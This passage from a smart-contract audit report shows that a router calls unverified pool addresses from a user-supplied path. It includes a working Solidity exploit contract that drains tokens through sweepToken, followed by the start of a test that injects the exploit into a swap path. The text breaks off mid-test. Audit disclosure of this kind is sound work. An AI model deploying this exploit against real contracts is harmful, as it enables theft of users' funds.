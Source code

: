 However, the pool address is not verified before being called. An attacker may trick a user into calling `exactInput` with a malicious contract as a pool and steal user's funds. Despite the requirement to force a user to sign a transaction, the difficulty of this attack is low for several reasons:

1. The path argument is *always* built by a front-end applications: users never fill it manually and have to trust front ends to properly fill the path for them. For example, Uniswap implements a complex [router](https://uniswap.org/blog/auto-router) that builds optimized paths. It's expected that the audited project will also implement a similar router, and the users will always use the paths generated by the router without checking them.

    Moreover, the path argument is encoded as a byte array (`IRouter.sol#L40`), which makes it hard to read and verify in a wallet.

2. The attack is performed by the official Router contract: users may have it added to the list of known contracts (a feature supported by MetaMask) and execute a transaction from a malicious front-end application thinking that, since the official Router contract is called, they're safe.

An example of a malicious pool contract:

```solidity
// router-v1/contracts/audit/AuditSwapExploit.sol
// SPDX-License-Identifier: unlicensed
pragma solidity ^0.8.0;

import "@openzeppelin/contracts/token/ERC20/IERC20.sol";
import "../interfaces/IRouter.sol";

contract AuditSwapExploit {
  address tokenAddress;

  constructor(address tokenAddress_) {
    tokenAddress = tokenAddress_;
  }

  function swap(address /*recipient*/, uint256 amount, bool /*tokenAIn*/, bool /*exactOutput*/, uint256 /*sqrtPriceLimit*/, bytes calldata /*data*/) external returns (uint256 amountIn, uint256 amountOut) {
    IRouter(msg.sender).sweepToken(IERC20(tokenAddress), 0, address(this));

    amountIn = amount;
    amountOut = type(uint256).max;
  }
}
```

A coded proof of concept that demonstrates an attack using the above contract:

```js
// router-v1/test/Router.ts
//   describe("#swap exact in", () => {
it("allows to steal funds [AUDIT]", async () => {
  let poolWETHB: string = await getEthBPool(0.05, 2);

  // Deploying a exploit.
  const factory = await ethers.getContractFactory("AuditSwapExploit", {});
  const exploit = await factory.deploy(tokenB.address);
  await exploit.deployed();

  const preExploitBalance = await balances(exploit.address);
  const preOwnerBalance = await balances(await owner.getAddress());

  // The attacker injects their exploit in the path.
  let path = encodePath([
    weth9.address,
    poolWETHB,
    tokenB.address,
    exploit.address,
```